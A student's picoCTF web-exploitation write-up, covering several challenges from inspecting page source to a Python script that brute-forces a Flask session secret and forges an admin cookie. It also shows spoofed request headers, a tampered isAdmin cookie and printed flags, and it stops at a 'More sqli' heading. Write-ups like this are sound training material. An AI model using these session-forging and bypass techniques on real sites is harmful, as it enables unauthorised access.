 ﻿**WEB EXPLOITATION**

PICOCTF

1\.Inspect Element

- Found the flag in the body tab of website when I inspected it.
- Anyways they should have kept the flag hidden in head tab then it would have related to Histiaeus as he hid messages on the head

2\.Intro To Burp

- Did a lightweight scan on website using burp(have professional version somehow)
- Didn’t find anything except one session cookie
- So registered while intercept was on 
- Forwarded it and did the same for otp form also
- Deleted otp= from request and got the flag

3\.Dont-use-client-side

- A verify function was given where flag was split in pieces of four
- Simple reconstruction- picoCTF{no\_clients\_plz\_b706c5}

4\.Where are The robots

- Obviously the creator would not want us to look at robots.txt
- Found / Disallow: /1bb4c.html
- Found the flag there

5\.SQL direct

- After downloading psql and connecting it, I had to google some basic commands
```bash
    (base) mehul@Mehuls-MacBook-Air ~ % psql -h saturn.picoctf.net -p 54826 -U postgres
Password for user postgres: 
psql (14.13 (Homebrew), server 15.2 (Debian 15.2-1.pgdg110+1))
WARNING: psql major version 14, server major version 15.
         Some psql features might not work.
Type "help" for help.

postgres=# \l
                                 List of databases
   Name    |  Owner   | Encoding |  Collate   |   Ctype    |   Access privileges   
-----------+----------+----------+------------+------------+-----------------------
 pico      | postgres | UTF8     | en_US.utf8 | en_US.utf8 | 
 postgres  | postgres | UTF8     | en_US.utf8 | en_US.utf8 | 
 template0 | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres          +
           |          |          |            |            | postgres=CTc/postgres
 template1 | postgres | UTF8     | en_US.utf8 | en_US.utf8 | =c/postgres          +
           |          |          |            |            | postgres=CTc/postgres
(4 rows)
postgres=# \c pico
psql (14.13 (Homebrew), server 15.2 (Debian 15.2-1.pgdg110+1))
WARNING: psql major version 14, server major version 15.
         Some psql features might not work.
You are now connected to database "pico" as user "postgres".
pico=# \dt
         List of relations
 Schema | Name  | Type  |  Owner   
--------+-------+-------+----------
 public | flags | table | postgres
(1 row)

pico=# \d flags
                        Table "public.flags"
  Column   |          Type          | Collation | Nullable | Default 
-----------+------------------------+-----------+----------+---------
 id        | integer                |           | not null | 
 firstname | character varying(255) |           |          | 
 lastname  | character varying(255) |           |          | 
 address   | character varying(255) |           |          | 
Indexes:
    "flags_pkey" PRIMARY KEY, btree (id)

pico=# SELECT * FROM FLAGS
pico-# ;
 id | firstname | lastname  |                address                 
----+-----------+-----------+----------------------------------------
  1 | Luke      | Skywalker | picoCTF{L3arN_S0m3_5qL_t0d4Y_31fd14c0}
  2 | Leia      | Organa    | Alderaan
  3 | Han       | Solo      | Corellia
(3 rows)

pico=# 
```
6\.Some assembly Required-1
- found that it was interacting with /G82XCw5CX3.js 
- when i opened the js i found /JIFxzHyW8W some obsure wasm probably
- using some wasm decompilers(it didnt even require that) i found the flag

7\.Who are you?
- Honestly the best challenge i have come across till now
- had to use some help but learnt a lot
- this is the orignal get request:
```bash
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.59 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```
- first had to change the useragent to PicoBrowser as it said only PicoBrowser is allowed
- Then i said it didnt trust users from other sites so had to cahnge the referer to the host only which is Referer: mercury.picoctf.net:52362
- Then it said site worked only in 2018 so i added Date: Wed, 21 Oct 2018 07:28:00 GMT
- Then had to make the request untarckable by DNT:1
- then it said the site worked only in sweden so i set the ip address for seden in X-Forwarded-For: 92.44.242.19
- finally  i also had to change the language to get the flag
- this is the final get request:
```bash
GET / HTTP/1.1
Host: mercury.picoctf.net:52362
Accept-Language: sv-sv,sv;q=0.9
Date: Wed, 21 Oct 2018 07:28:00 GMT
DNT:1
Upgrade-Insecure-Requests: 1
User-Agent: PicoBrowser
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Referer: mercury.picoctf.net:52362
X-Forwarded-For: 92.44.242.19
Connection: keep-alive
```
8\.Power cookies
- Opened Burp Suite as usual while intercept was on
- when i clicked on continue as guest this was the get request 
``` bash 
GET /check.php HTTP/1.1
Host: saturn.picoctf.net:61613
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.59 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://saturn.picoctf.net:61613/
Accept-Encoding: gzip, deflate, br
Cookie: isAdmin=0
Connection: keep-alive
``` 
- i just changed cookie to 1 to get the flag

9\. Most Cookies
- downlaoded flask-unsign
- looked how server.py worked
- i bruteforced to find the valid cookie
```bash 
  from bs4 import BeautifulSoup
from subprocess import run
import requests

url = "http://mercury.picoctf.net:52134/"
session = requests.Session()
response = session.get(url)
cookie = session.cookies.get_dict().get('session')
cookie_names = [
    "snickerdoodle", "chocolate chip", "oatmeal raisin", "gingersnap", 
    "shortbread", "peanut butter", "whoopie pie", "sugar", "molasses", 
    "kiss", "biscotti", "butter", "spritz", "snowball", "drop", 
    "thumbprint", "pinwheel", "wafer", "macaroon", "fortune", 
    "crinkle", "icebox", "gingerbread", "tassie", "lebkuchen", 
    "macaron", "black and white", "white chocolate macadamia"
]
with open('wordlist.txt', 'w') as f:
    for name in cookie_names:
        f.write(name + "\n")
result = run(
    ["flask-unsign", "--unsign", "--cookie", cookie, "--wordlist", "wordlist.txt"],
    capture_output=True, text=True
)
secret = result.stdout.strip()
if not secret:
    raise ValueError("Secret key was not found.")
payload = '{"very_auth": "admin"}'
sign_result = run(
    ["flask-unsign", "--sign", "--cookie", payload, "--secret", secret],
    capture_output=True, text=True
)
signed_cookie = sign_result.stdout.strip()
if not signed_cookie:
    raise ValueError("Failed to sign the cookie.")
cookies = dict(session=signed_cookie)
response = requests.get(url, cookies=cookies)
soup = BeautifulSoup(response.text, "html.parser")
flag = soup.select_one("body > div.container > div.jumbotron > p:nth-child(2)")
if flag:
    print(flag.get_text())
else:
    print("Flag not found on the page.")
```

10\. More sqli
